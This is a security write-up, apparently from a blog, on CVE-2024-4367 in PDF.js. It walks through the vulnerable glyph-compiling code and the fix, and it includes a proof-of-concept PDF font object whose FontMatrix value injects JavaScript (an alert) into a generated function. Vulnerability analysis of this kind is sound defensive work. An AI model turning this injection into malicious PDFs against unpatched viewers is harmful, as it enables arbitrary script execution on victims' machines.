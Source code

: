 ```yaml
---
title: CVE-2024-4367 (PDF.js - Arbitrary JS Execution)
description: >-
  Arbitrary Code Execution in PDF.js 
author: Cronus
date: 2024-12-02 00:23:00 
categories: [Security, 1-Day]
tags: [1-Day]
pin: false
image:
  path: /assets/img/CVE-2024-4367/pdfjs.png
  width: 300
  height: 300
---
```


## **Vulnerable Product & Version**

-   All FireFox Users ( < 126)
-   Services which use `pdfjs-dist`(<= 4.1.392) module in NPM (NodeJS)

## **Summary**

1.  PDF.js acts as a viewer to show a preview of a pdf file, which is made by Mozila.
2.  It has the ability to render fonts and CVE-2024-4367 vulnerabilitiy targets this part.
3.  The user can set the values of the PDF file's properties, and pdf.js applies them by executing JavaScript code.
4.  However, there is no validation of the fontMatrix property value, which allows arbitrary JavaScript code to be executed.

## **Intro - Feature of Glyph rendering**

The vulnerability occurs in ap specific part of the font rendering code. Fonts in PDFs can come in serveral different formats. For some font formats, PDF.js can’t rely on the browser’s built-in font rendering, so it has to manually create each glyph’s shape on the page. To make the performance better, PDF.js pre-compiles a a "path generator function". This process is executed by making a JS function object with a body(jsBuf).

```js
// https://github.com/mozilla/pdfjs-dist/blob/master/build/pdf.js#L4919
// If we can, compile cmds into JS for MAXIMUM SPEED...
if (this.isEvalSupported && FeatureTest.isEvalSupported) {
  const jsBuf = [];
  for (const current of cmds) {
    const args = current.args !== undefined ? current.args.join(",") : "";
    jsBuf.push("c.", current.cmd, "(", args, ");\n");
  }
  // eslint-disable-next-line no-new-func
  console.log(jsBuf.join(""));
  return (this.compiledGlyphs[character] = new Function(
    "c",
    "size",
    jsBuf.join("")
  ));
}
```

It seems possible to control these `cmds` which is in Function body and insert attackers payload. If it can, we may execute payload when a glyph is rendered.

## **The logic of generating commands in Glyph rendering**

We can find `compileGlyph()` method in `CompiledFont` class. This method initializes `cmd` array with some general commands(save, transform, scale and restore), then defers them to a `compileGlyphImpl` method.

```js
  compileGlyph(code, glyphId) {
    if (!code || code.length === 0 || code[0] === 14) {
      return NOOP;
    }

    let fontMatrix = this.fontMatrix;
    ...

    const cmds = [
      { cmd: "save" },
      { cmd: "transform", args: fontMatrix.slice() },
      { cmd: "scale", args: ["size", "-size"] },
    ];
    this.compileGlyphImpl(code, cmds, glyphId);

    cmds.push({ cmd: "restore" });

    return cmds;
  }
```

If you look at the args of the `transform` command, you can see that `fontMatrix.slice()` is used, and since the default value of `fontMatrix` is \[0.001, 0, 0, 0.001, 0, 0\], the function that is created will look like this.

```js
Function(c, size)
{
    c.save();
    c.transform(0.001,0,0,0.001,0,0); // <-- fontMatrix related part.
    c.scale(size,-size);
    c.moveTo(0,0);
    c.restore();
}
```

A user can replace default setting via defining a with new values like below. The point is, there is no validation logic in the part where a user specify the value of the Fontmatrix, so user can insert javascript code. (It looks similar to a command injection)

```js
1 0 obj
<<
  /Type /Font
  /Subtype /Type1
  /FontDescriptor 2 0 R
  /BaseFont /FooBarFont
  /FontMatrix [1 2 3 4 5 (0\); alert\('foobar')]  // <-- Arbitrary Javascript code
>>
endobj
```

In this case, `(0\\); alert\\('foobar')` will be translated into `0); alert('foobar'`, and the `Function` will be created as follows.

```js
c.save();
c.transform(1,2,3,4,5,0); alert('foobar');
c.scale(size,-size);
c.moveTo(0,0);
c.restore();
```

So finally, a user(or attacker) can trigger javascript code.

## **Mitigation**

The patch for this vulnerability replaced commands such as `transform` and `save`, which were previously handled as strings, with enum values such as `SAVE` and `TRANSFORM` in `FontRenderOps`, as shown below, and also replaced cmds with the `Commands` class rather than an array of strings. In addition, the add method used to add commands checks if the argument's type is numeric to prevent JavaScript code from being injected.